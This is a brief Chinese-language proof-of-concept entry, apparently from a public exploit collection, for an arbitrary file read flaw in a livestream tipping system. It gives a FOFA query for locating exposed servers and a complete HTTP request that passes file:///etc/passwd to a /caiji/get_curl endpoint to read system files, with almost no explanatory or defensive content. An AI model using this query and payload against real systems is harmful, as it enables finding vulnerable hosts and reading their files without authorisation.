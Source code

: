 # 某短视频直播打赏系统任意文件读取漏洞



## fofa

```java
"Location: https://m.baidu.com" && domain!="baidu.com" 
```

## poc

```
GET /caiji/get_curl?url=file:///etc/passwd HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20240811141121677](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408111411774.png)



## 漏洞来源

- https://mp.weixin.qq.com/s/zg5H5dPoJbLrKEQLY9FfYA